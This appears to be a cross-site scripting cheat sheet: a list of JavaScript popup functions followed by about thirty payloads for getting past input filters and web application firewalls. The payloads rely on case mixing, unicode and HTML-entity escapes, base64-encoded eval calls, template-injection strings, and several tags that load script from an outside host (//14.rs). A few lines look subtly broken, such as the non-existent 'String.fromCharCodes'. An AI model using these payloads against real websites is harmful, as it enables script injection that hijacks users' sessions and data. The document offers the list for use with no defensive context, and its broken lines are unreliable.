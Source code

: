  # JavaScript functions to get a popup
    alert()
    confirm()
    prompt()
    open()
    showModalDialog()
    window.alert()
    window.confirm()
    window.prompt()
    window.open()
    window.showModalDialog()
    window.print()
    Notification()
    navigator.notification.alert()
    navigator.notification.confirm()
    navigator.notification.prompt()
    toastr.info()
    toastr.success()
    toastr.warning()
    toastr.error()
    swal()
    iziToast.show()
    sweetalert()
    bootbox.alert()
    bootbox.confirm()
    bootbox.prompt()
    $.alert()
    $.confirm()
    $.prompt()
    $.fn.modal()
    $.fn.dialog()

  # Payloads for filter & WAF evasion
    '\'"</Script><Html Onmouseover=(confirm)()//'
    '<imG/sRc=l oNerrOr=(prompt)() x>'
    '<!--<iMg sRc=--><img src=x oNERror=(prompt)`` x>',
    '<deTails open oNToggle=confi\u0072m()>',
    '<img sRc=l oNerrOr=(confirm)() x>',
    '<svg/x=">"/onload=confirm()//',
    '<svg%0Aonload=%09((pro\u006dpt))()//',
    '<iMg sRc=x:confirm`` oNlOad=e\u0076al(src)>{{85*85}}JyI+PGgxPmhhdHRhY2tpcmk8L2gxPg',
    '<sCript x>confirm``</scRipt x>',
    '<Script x>prompt()</scRiPt x>',
    '<sCriPt sRc=//14.rs>',
    '<embed//sRc=//14.rs>',
    '<base href=//14.rs/><script src=/>',
    '<object//data=//14.rs>',
    '<s=" onclick=confirm``>clickme',
    '<svG oNLoad=co\u006efirm&#x28;1&#x29>{{85*85}}JyI+PGgxPmhhdHRhY2tpcmk8L2gxPg',
    '\'"><y///oNMousEDown=((confirm))()>Click',
    '<a/href=javascript&colon;co\u006efirm&#40;&quot;1&quot;&#41;>clickme</a>',
    '<img src=x onerror=confir\u006d`1`>',
    '<svg/onload=co\u006efir\u006d`1`>',
    'background-image:url("javascript:eval(atob(`YWxlcnQoMSk=`))")',
    '{{constructor.constructor("eval(atob(`YWxlcnQoMSk=`))")()}}',
    '"><script>eval(atob(`YWxlcnQoMSk=`))</script>',
    'String.fromCharCodes(97,108,101,114,116,40,49,41)',
    'eval(String.fromCharCodes(97,108,101,114,116,40,49,41))',
    '\\u003cscript\\u003eeval(atob(`YWxlcnQoMSk=`))\\u003c/script\\u003e',
    '<script>document.getElementById(`myDiv`).innerHTML="<img src=x onerror=eval(atob(`YWxlcnQoMSk=`))>";</script>',
    '<img src=#><script>eval(atob(`YWxlcnQoMSk=`))</script>',
    '<svg onload=eval(atob(`YWxlcnQoMSk=`))>',
    'payload%00<script>eval(atob(`YWxlcnQoMSk=`))</script',
    '&NewLine;<script&#9;type="text/javascript">alert(`XSS`)</script>{{85*85}}JyI+PGgxPmhhdHRhY2tpcmk8L2gxPg',
    '"));eval(atob(`YWxlcnQoMSk=`))//'



